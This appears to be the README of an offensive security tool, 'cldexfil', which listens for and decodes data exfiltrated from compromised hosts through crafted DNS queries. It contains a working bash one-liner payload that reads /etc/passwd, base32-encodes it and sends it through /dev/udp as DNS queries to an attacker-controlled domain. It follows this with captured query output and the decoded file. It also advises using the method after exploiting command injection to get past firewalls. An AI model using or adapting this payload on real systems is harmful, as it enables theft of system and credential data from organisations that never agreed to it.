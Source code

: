 # cldexfil
Client-Less Data Exfiltration over DNS

`cldexfil` is a bare-simple tool to passively read exfiltrated data on DNS
queries. It listens and captures specially crafted Domain Name System (DNS)
queries on an interface of your choosing, decode and print them on your screen.

At this time of writing [cldexfil.py](cldexfil.py) is relatively limited
feature-wise, but as new client-less exfiltration methods (see Exfiltration
methods below) will be experimented, more features will be added.


## Why?
Very frequently you cannot easily get a shell and directly exfiltrate data from
a compromised target, thanks to blind command injections, NGFWs and WAFs among
other things. What is left to you is a bare host environment (or an hardened
version) with the only capability to send DNS queries to the organization's DNS
forwarder(s). This is a very common scenario in today's _secured_ networks where
hosts rely solely on DNS resolutions to perform their tasks.

During some experiments, I found out that most Linux and Unix environments
ships with all the necessary tools to craft valid DNS queries and therefore,
attackers (presumably you with good intents) can exfiltrate valuable information
through the (frequently trusted) DNS channel.

`cldexfil` can tolerate and compensate for base32 padding issues, however it
does not differentiate legitimate DNS queries from forged ones.


## Exfiltration methods
Several client-less exfiltration methods do exist, one particularly useful and
which has been the catalyst to the creation of this tool is the use of the
bash's `/dev/udp redirection` feature to craft valid DNS queries. The latter are
forwarded by the host's trusted forwarder(s) to the authoritative DNS server you
control (or for which you can intercept traffic).

Let's see an example of a one-liner bash command which can be used as a payload.
The below command uses the `base32`, `echo` and `cat` commands combined, all are
part of GNU coreutils, the latter is included in the base install of many Linux
distributions:
```
$ cat /etc/passwd | base32 -w63 | while read E; do ( echo -ne "\x7a\x69\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x3f" && echo -n $E && echo -ne "\x04\x74\x6f\x6f\x72\x02\x73\x69\x00\x00\x01\x00\x01" ) | cat > /dev/udp/8.8.8.8/53; done
```

The first command concatenates and prints the content of the `/etc/passwd` file
on standard output. It's then piped to the `base32` utility so 63-bytes names
are created and read individually. For every lines (or names), the `echo`
command produces a DNS query and send it through the shell `/dev/udp`
pseudo-device, to the specified DNS forwarder.

Worth mentioning is the fact the binary string passed to the first `echo`
command includes the `recursion desired` bit set and an hard-coded transaction
id. The last `echo` command includes the domain name, the class and type of the
query; above `A` records were used (0x1) within the `IN` class (0x0001).

Please note the above queries' length are hard-coded to 63 bytes (0x3F),
therefore the last created hostname will probably not be aligned on a 63 bytes
boundary and it will results in a malformed DNS query.

In presence of command injection vulnerabilities you frequently have a list of
bad characters you cannot inject, such as the semi-colon `;` or the back-slash
`\`, the above example is of no use in such cases, and alternative characters
or command expressions may be needed. Also keep in mind that most methods
described here, do not provide data confidentiality and integrity.

The above command can certainly be optimized and has room for improvements via
additional experimentations. `cldexfil` supports variable-length queries as soon
as the sub-domain can be extracted and decoded using base32. The python script
has been deliberately kept simple for these reasons.

Also keep in mind that reliability and behaviors may vary from implementations
to implementations, and between shells versions.


## Practical examples
`cldexfil` can be used in a lot of exploitation scenarios. This project's
[wiki](https://github.com/e3prom/miscsec/wiki/cldexfil) includes a few practical
examples of *client-less* data exfiltration over DNS through the exploitation of
well known vulnerabilities such as RCEs.


## Dependencies
 * Python 2.7
 * Scapy (https://github.com/secdev/scapy)


## Running
Simply run [cldexfil.py](cldexfil.py) by specifying the network interface you
want to listen on (may require root privilege). The tool will passively extract
DNS queries (a source can optionally be given with the '-s' switch) and decode
them to standard output.

```
$ sudo ./cldexfil/cldexfil.py -s 8.8.8.8 --verbose eth0
[*] listening on eth0 for DNS queries
[*] hit CTRL-C to decode data received
Ether / IP / UDP / DNS Qry "OJXW65B2PA5DAORQHJZG633UHIXXE33POQ5C6YTJNYXWEYLTNAFGIYLFNVXW4OT.toor.si."
Ether / IP / UDP / DNS Qry "YHIYTUMJ2MRQWK3LPNY5C65LTOIXXGYTJNY5C65LTOIXXGYTJNYXW433MN5TWS3.toor.si."
Ether / IP / UDP / DNS Qry "QKMJUW4OTYHIZDUMR2MJUW4ORPMJUW4ORPOVZXEL3TMJUW4L3ON5WG6Z3JNYFHG.toor.si."
Ether / IP / UDP / DNS Qry "6LTHJ4DUMZ2GM5HG6LTHIXWIZLWHIXXK43SF5ZWE2LOF5XG63DPM5UW4CTTPFXG.toor.si."
Ether / IP / UDP / DNS Qry "GOTYHI2DUNRVGUZTIOTTPFXGGORPMJUW4ORPMJUW4L3TPFXGGCTHMFWWK4Z2PA5.toor.si."
Ether / IP / UDP / DNS Qry "DKORWGA5GOYLNMVZTUL3VONZC6Z3BNVSXGORPOVZXEL3TMJUW4L3ON5WG6Z3JNY.toor.si."
Ether / IP / UDP / DNS Qry "FG2YLOHJ4DUNR2GEZDU3LBNY5C65TBOIXWGYLDNBSS63LBNY5C65LTOIXXGYTJN.toor.si."
Ether / IP / UDP / DNS Qry "YXW433MN5TWS3QKNRYDU6B2G45DOOTMOA5C65TBOIXXG4DPN5WC63DQMQ5C65LT.toor.si."
Ether / IP / UDP / DNS Qry "OIXXGYTJNYXW433MN5TWS3QKNVQWS3B2PA5DQORYHJWWC2LMHIXXMYLSF5WWC2L.toor.si."
Ether / IP / UDP / DNS Qry "MHIXXK43SF5ZWE2LOF5XG63DPM5UW4CTOMV3XGOTYHI4TUOJ2NZSXO4Z2F53GC4.toor.si."
Ether / IP / UDP / DNS Qry "RPONYG633MF5XGK53THIXXK43SF5ZWE2LOF5XG63DPM5UW4CTVOVRXAOTYHIYTA.toor.si."
Ether / IP / UDP / DNS Qry "ORRGA5HK5LDOA5C65TBOIXXG4DPN5WC65LVMNYDUL3VONZC643CNFXC63TPNRXW.toor.si."
Ether / IP / UDP / DNS Qry "O2LOBJYHE33YPE5HQORRGM5DCMZ2OBZG66DZHIXWE2LOHIXXK43SF5ZWE2LOF5X.toor.si."
Ether / IP / UDP / DNS Qry "G63DPM5UW4CTXO53S2ZDBORQTU6B2GMZTUMZTHJ3XO5ZNMRQXIYJ2F53GC4RPO5.toor.si."
Ether / IP / UDP / DNS Qry "3XOORPOVZXEL3TMJUW4L3ON5WG6Z3JNYFGEYLDNN2XAOTYHIZTIORTGQ5GEYLDN.toor.si."
Ether / IP / UDP / DNS Qry "N2XAORPOZQXEL3CMFRWW5LQOM5C65LTOIXXGYTJNYXW433MN5TWS3QKNRUXG5B2.toor.si."
Ether / IP / UDP / DNS Qry "PA5DGOB2GM4DUTLBNFWGS3THEBGGS43UEBGWC3TBM5SXEORPOZQXEL3MNFZXIOR.toor.si."
Ether / IP / UDP / DNS Qry "POVZXEL3TMJUW4L3ON5WG6Z3JNYFGS4TDHJ4DUMZZHIZTSOTJOJRWIORPOZQXEL.toor.si."
Ether / IP / UDP / DNS Qry "3SOVXC62LSMNSDUL3VONZC643CNFXC63TPNRXWO2LOBJTW4YLUOM5HQORUGE5DI.toor.si."
Ether / IP / UDP / DNS Qry "MJ2I5XGC5DTEBBHKZZNKJSXA33SORUW4ZZAKN4XG5DFNUQCQYLENVUW4KJ2F53G.toor.si."
Ether / IP / UDP / DNS Qry "C4RPNRUWEL3HNZQXI4Z2F52XG4RPONRGS3RPNZXWY33HNFXAU3TPMJXWI6J2PA5.toor.si."
Ether / IP / UDP / DNS Qry "DMNJVGM2DUNRVGUZTIOTON5RG6ZDZHIXW433OMV4GS43UMVXHIORPOVZXEL3TMJ.toor.si."
Ether / IP / UDP / DNS Qry "UW4L3ON5WG6Z3JNYFHG6LTORSW2ZBNORUW2ZLTPFXGGOTYHIYTAMB2GEYDGOTTP.toor.si."
Ether / IP / UDP / DNS Qry "FZXIZLNMQQFI2LNMUQFG6LOMNUHE33ONF5GC5DJN5XCYLBMHIXXE5LOF5ZXS43U.toor.si."
Ether / IP / UDP / DNS Qry "MVWWIORPMJUW4L3GMFWHGZIKON4XG5DFNVSC23TFOR3W64TLHJ4DUMJQGE5DCMB.toor.si."
Ether / IP / UDP / DNS Qry "UHJZXS43UMVWWIICOMV2HO33SNMQE2YLOMFTWK3LFNZ2CYLBMHIXXE5LOF5ZXS4.toor.si."
Ether / IP / UDP / DNS Qry "3UMVWWIL3OMV2GSZR2F5RGS3RPMZQWY43FBJZXS43UMVWWILLSMVZW63DWMU5HQ.toor.si."
Ether / IP / UDP / DNS Qry "ORRGAZDUMJQGU5HG6LTORSW2ZBAKJSXG33MOZSXELBMFQ5C64TVNYXXG6LTORSW.toor.si."
Ether / IP / UDP / DNS Qry "2ZBPOJSXG33MOZSTUL3CNFXC6ZTBNRZWKCTTPFZXIZLNMQWWE5LTFVYHE33YPE5.toor.si."
Ether / IP / UDP / DNS Qry "HQORRGAZTUMJQGY5HG6LTORSW2ZBAIJ2XGICQOJXXQ6JMFQWDUL3SOVXC643ZON.toor.si."
Ether / IP / UDP / DNS Qry "2GK3LEHIXWE2LOF5TGC3DTMUFG2ZLTONQWOZLCOVZTU6B2GEYDIORRGA3TUORPO.toor.si."
Ether / IP / UDP / DNS Qry "ZQXEL3SOVXC6ZDCOVZTUL3CNFXC6ZTBNRZWKCSEMVRGSYLOFVSXQ2LNHJ4DUMJQ.toor.si."
Ether / IP / UDP / DNS Qry "GU5DCMJQHI5C65TBOIXXG4DPN5WC6ZLYNFWTIORPMJUW4L3GMFWHGZIKtoors."
^C
[*] Decoding exfiltrated data...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
messagebus:x:104:107::/var/run/dbus:/bin/false
Debian-exim:x:10
```


## Contribution
Feel free to share your contribution, if you feel inclined to.


## License
GNU General Public License v3.0
